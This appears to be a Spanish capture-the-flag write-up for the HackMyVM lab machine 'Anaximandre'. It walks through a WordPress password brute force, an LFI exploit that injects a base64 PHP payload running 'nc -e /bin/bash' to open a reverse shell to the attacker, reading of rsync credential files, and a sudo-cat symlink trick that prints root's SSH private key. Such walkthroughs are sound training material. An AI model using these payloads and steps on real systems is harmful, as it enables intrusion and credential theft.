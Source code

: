 ```yaml
---
layout: post
title: Anaximandre - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/anaximandre/anaximandre_1.png#center)

## Reconocimiento

Tras un escaneo inicial con "nmap", veo los siguientes puertos abiertos

```
$ nmap -p- 192.168.1.26    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 06:34 EST
Nmap scan report for 192.168.1.26
Host is up (0.00018s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
873/tcp open  rsync

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
```

Voy a comenzar enumerando el puerto 80.

### 80 (http)

Varios links en la página apuntan al dominio "anaximandre.hmv" por lo que lo añado a /etc/hosts. Además se puede ver que la página está hecha con wordpress por lo que ejecuto "wpscan" para buscar vulnerabilidades, usuarios y contraseñas.

```
$ wpscan --url "http://192.168.1.26"  --api-token [api-token] -P /usr/share/wordlists/rockyou.txt --detection-mode aggressive --plugins-detection aggressive -t 10
```

Al ejecutarlo descubro al usuario "webmaster" cuya contraseña es "mickey".

Al loguearme en Wordpress veo dos comentarios recientes del admin del servidor, en uno de los dos hay un mensaje confidencial "Yn89m1RFBJ" (Lo guardo para mas tarde).

No encuentro nada más por lo que ahora enumero el puerto 873.

### 873 (rsync)

En este puerto se está ejecutando un servidor "rsync". Enumero carpetas públicas:

```
$ rsync  rsync://192.168.1.26/
    share_rsync     Journal
```

Y despues veo los archivos que contiene la carpeta:

```
$ rsync  rsync://192.168.1.26/share_rsync
drwxr-xr-x          4,096 2022/11/26 10:23:01 .
-rw-r-----         67,719 2022/11/26 10:19:33 access.log.cpt
-rw-r-----          4,206 2022/11/26 10:19:53 auth.log.cpt
-rw-r-----         45,772 2022/11/26 10:19:53 daemon.log.cpt
-rw-r--r--        229,920 2022/11/26 10:19:53 dpkg.log.cpt
-rw-r-----          4,593 2022/11/26 10:19:33 error.log.cpt
-rw-r-----         90,768 2022/11/26 10:19:53 kern.log.cpt
```

Los voy descargando uno a uno de la siguiente manera:

```
$ rsync  rsync://192.168.1.26/share_rsync/access.log.cpt .
```

Los archivos descargados tienen extension ".cpt". Estos archivos se pueden descomprimir con "ccrypt" y cuando nos pide contraseña uso la que encontré antes en el comentario de wordpress.

```
$ ccrypt -d access.log.cpt
Enter decryption key: Yn89m1RFBJ
```

Buscando entre los diferentes archivos log desencriptados encuentro varias cositas interesantes.

### auth.log

Usuario: chaz

```
Nov 26 16:16:07 debian useradd[16501]: new user: name=chaz, UID=1001, GID=1001, home=/home/chaz, shell=/bin/bash, from=/dev/pts/0
```

### access.log

Subdominio: lovegeografia.anaximandre.hmv
Posible LFI:

```
192.168.0.29 - - [26/Nov/2022:16:15:38 +0100] "GET /exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1" 200 982 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

Voy a comenzar con el posible LFI

## Explotación

Buscando un poco en google encuentro la vulnerabilidad CVE-2022-32409 que afecta a codemirror.php con la que se puede conseguir ejecucion de código en el servidor.

```
$ echo -n "<?php system('nc -e /bin/bash 192.168.1.22 1234'); ?>" | base64
    PD9waHAgc3lzdGVtKCduYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC4xLjIyIDEyMzQnKTsgPz4=
```

Ejecuto un listener en el puerto 1234 de mi máquina y navego a la siguiente url para ejecutar la shell inversa.

```
http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=data://text/plain;base64,PD9waHAgc3lzdGVtKCduYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC4xLjIyIDEyMzQnKTsgPz4=
```

```
$ nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [192.168.1.22] from (UNKNOWN) [192.168.1.26] 60032
    whoami
    www-data
```

Y con esto ya estoy dentro.

## Escalado de privilegios

Como el servidor tiene ejecutandose rsync compruebo en sus archivos de configuracion alguna credencial guardada.
```
$ cat /etc/rsyncd.auth
    chaz:alanamorrechazado
```

Me conecto mediante ssh para tener una terminal más cómoda

```
ssh chaz@<ip>
```
Una vez conectado como chaz compruebo si puede ejecutar algún comando con sudo:

```
$ chaz@anaximandre:~$ sudo -l
[...]
User chaz may run the following commands on anaximandre:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/chaz/*
```

Teniendo privilegios para ejecutar cat en los archivos del home de chaz podemos leer cualquier archivo del sistema mediante "soft links". En este caso leo el id_rsa de root.

```
chaz@anaximandre:~$ ln -s /root/.ssh/id_rsa .
chaz@anaximandre:~$ ls
id_rsa  user.txt
chaz@anaximandre:~$ sudo cat /home/chaz/*
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAymVIJCfeVhY3wXQyz8tZrt+cHyKuDTTXN+NpIbM7EakMulk97ZHu
jNWDOMzF+f1jicidrEZkTjqCMLtwF4wpPNskUCAC7XjglhxifQWOUQXyRvkSPT690q6o+6
OfesMAs2CG+tfhhsfR2yqpC6v3UTbUdIcBUR3lp+bng6IlV6An5iWTBfI4Rd7VkWP9Cu7m
gfe6Gp8u6PE7R0lO4mzd5Sf8Tx06r1x/AVP9d2xl4NgvRmFM1bwGWVCN1NKX8e83dyHQoG
JCPFs76aNWsLfL2MaK1DLrrbRrytic+8/TNvJSqHVthX4CUMsa4tU0V9fi8phq2nG+Ny9N
qZVieX7ai1VY6M95vAI6Jser62YnAjftITMIIInEt7t0GAx7obwUtOH0Cg9wp7ttK6ou6r
99x2oI33gv0L8YhJhBOwWm+bj1SmWv7CFvlR04kDoMUxTtttwFryXPabHSMD29weuE7srn
lHYbinlTpSsMu1zkAsHdPPfICgF1P9KTVSU1Ay9FAAAFkBtj3CkbY9wpAAAAB3NzaC1yc2
EAAAGBAMplSCQn[...]USFdcz4eJ/EaePaNtfzo6K5BYJmt2i
9XZer3Q3fowTWYzStuVaEifKSmCrMR/9yD9x3gZUMhiGrfcPr+Z8pjHzF4ER0UUaWyOQM6
ouiMN0IAj/JVviNlbQFdpoie0DM8qovXqgD5NNwdRvlCW57IWYAY9OjK931qr6+rGHM9NB
NPPUSGcYjOnbUQ1jYIBeYpFGKq1GL7oxcXQXVbqm84EBFx1Tz4Rnc2+ox/qOc43B04fUYp
CXt4kL70hA2hMVKtcuHXK178vxXT3/wo4X4MSmDQ0mYY1fGOEiDcmEWagk0PUIiFWlQPEp
YwM/dHiOUj5ZslqAhEM62aQUfE5X2oeh/6wugrbscktzWl+ghb73pYRQa/xHWvWm+5Dmek
LKoj8zp21xX+MBbwhFnakqCySrn6FflrsjU4g7Mw6kkwfH1tHEeiSZ/tbQgGwOqJpkoQAA
AMBfAnDFmytdTka5I4Rfd5yEob5sIsAKW5QE4dcdRgh/p03Z6uuwes+wzp6HcMaFx+7S1K
q3n156W1igBzcZb3qIJSmUWJ8msvGCIBx8wORfFO62C6MxemwbQHpRMJLVtdUmPzNoakJN
FK7UmvuH+bbnnbAEYZiP6b3LFU/52aOSw1ZhiaAsybrCyx4lXmp2gC3ypoCpKZIfMkH3LX
rIpWReurThX2FOi102ik52D1w6YpeWY5lK/4XZhYP/VOYG2G8AAADBAPt3kWvCWu/6ia+g
wtTQL+3qZpoHeaoRm50JWMook00W99XniNBoYJjry219u8KTZD8mjwNMuEjmbdwSFCpMrc
wqnCJlJYYknKJ33+PSaCXw7nAO7Nm8X9C/lrD/H9nTPlFnIkP/7d8wn53jQSgweNdhpXxB
p122C3/yXW2G+HjJt9WQc1IBdZ9WRsz1Qj6znE94X83HQawAoEfwqctmH/Y17M1Vl4KafX
qD/2qvGZuSUq4yk0H+BVfWYsMRkBBPrQAAAMEAzgtEMU65MwI+JrGK1QpJnSKRzJvOcnce
xPsiaSeWu1/8hGdyP2zjBNf6YSSRijwvQaoXieTadK7DIb9JAAKwzzEvRFD8krElkbwnFQ
Y1aew2FaQABKsxthX/fY7IJgcYuyWxcKEGOCpU51MrvRVcYF/irDJqzoJpnOiMcspPwBm0
gX2Wvo5gZGNuBg7sgrt3liqXKQzM0xheKX/Tvh0WkhGH8Y5cWO9eYeGGnM9SnIUkzm9Gv4
7ic/80uLk8snD5AAAAFHJvb3RAYW5heGltYW5kcmUuaG12AQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

Teniendo ya su id_rsa, conseguir root es simple
```
$ ssh root@192.168.1.26 -i id_rsa 

root@anaximandre:~# :)
```

Muchas gracias  **Cromiphi** por esta máquina.
